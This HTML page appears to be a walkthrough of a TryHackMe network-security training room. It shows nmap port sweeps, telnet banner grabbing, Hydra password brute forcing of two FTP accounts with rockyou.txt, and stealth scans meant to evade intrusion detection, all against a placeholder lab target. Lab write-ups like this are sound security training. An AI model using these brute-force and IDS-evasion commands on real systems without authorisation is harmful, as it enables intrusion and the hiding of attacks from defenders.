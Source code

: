 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8" />
  <title>TryHackMe – Net Sec Challenge Walkthrough 🚀</title>
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <style>
    body { font-family: system-ui, -apple-system, Segoe UI, Roboto, Helvetica, Arial, sans-serif; line-height: 1.6; margin: 2rem; color: #111; }
    h1, h2 { margin-top: 1.6rem; }
    code, pre { background: #f6f8fa; border: 1px solid #eaecef; border-radius: 6px; }
    code { padding: 0 .25rem; }
    pre { padding: 1rem; overflow: auto; }
    a { color: #0366d6; text-decoration: none; }
    a:hover { text-decoration: underline; }
    ul { padding-left: 1.25rem; }
    .muted { color: #555; }
  </style>
</head>
<body>

  <h1>TryHackMe – Net Sec Challenge Walkthrough 🚀</h1>
  <p><a href="https://tryhackme.com/room/netsecchallenge">https://tryhackme.com/room/netsecchallenge</a></p>

  <h2>🔍 Reconnaissance</h2>
  <p>I ran a fast full TCP sweep and filtered for open ports:</p>
  <pre><code>nmap -p- --min-rate 10000 &lt;TARGET_IP&gt; | grep open</code></pre>
  <ul>
    <li>🔢 Highest open port under 10,000 → <strong>8080</strong></li>
    <li>🎯 Open port above 10,000 → <strong>10021</strong></li>
    <li>📊 Total open TCP ports → <strong>6</strong></li>
  </ul>

  <h2>🌐 HTTP Server Header Flag</h2>
  <p>Connected via Telnet on port 80 and sent a minimal HTTP request to read headers:</p>
  <pre><code>telnet &lt;TARGET_IP&gt; 80
GET / HTTP/1.1
Host: telnet

</code></pre>
  <p>The <code>Server:</code> header contained the flag 🏁.</p>

  <h2>🔑 SSH Server Header Flag</h2>
  <p>Fetched the SSH banner (includes the flag) by connecting on port 22:</p>
  <pre><code>telnet &lt;TARGET_IP&gt; 22</code></pre>

  <h2>📡 FTP Service Enumeration</h2>
  <p>FTP was hosted on a non-standard port <strong>10021</strong>. The banner exposed the version:</p>
  <pre><code>telnet &lt;TARGET_IP&gt; 10021
# Example banner:
# 220 (vsFTPd 3.0.3)
</code></pre>

  <h2>🔐 FTP Brute Force &amp; User Files</h2>
  <p>Usernames provided: <code>eddie</code> and <code>quinn</code>. Used Hydra with <code>rockyou.txt</code> against port 10021:</p>
  <pre><code>hydra -l eddie -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://&lt;TARGET_IP&gt;
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://&lt;TARGET_IP&gt;</code></pre>
  <p>After finding valid creds, logged in and pulled the file containing the flag:</p>
  <pre><code>ftp &lt;TARGET_IP&gt; 10021
ls
ascii
get &lt;filename&gt;
cat &lt;filename&gt;</code></pre>

  <h2>🕵️ IDS Evasion (Covert Scan)</h2>
  <p>Goal: perform a stealthy Nmap scan to avoid IDS detection.</p>
  <p>Initial attempt (fragmented SYN) showed low detection but filtered ports:</p>
  <pre><code>nmap -sS -T2 -f -p- &lt;TARGET_IP&gt;</code></pre>
  <p>✅ The scan that unlocked the final flag was a <strong>Null scan</strong>:</p>
  <pre><code>nmap -sN &lt;TARGET_IP&gt;</code></pre>
  <p class="muted">Null scans set no TCP flags; ports typically appear as <code>open|filtered</code>, which was sufficient to trigger the room’s final flag 🏁.</p>

  <h2>🏆 Flags Summary</h2>
  <ul>
    <li>🌐 HTTP header → Flag 🏁</li>
    <li>🔑 SSH banner → Flag 🏁</li>
    <li>📡 FTP banner/version → Flag 🏁</li>
    <li>🔐 FTP user file → Flag 🏁</li>
    <li>🕵️ Null scan (<code>-sN</code>) → Final flag 🏁</li>
  </ul>

  <p>✅ Room complete! 🎉</p>

</body>
</html>

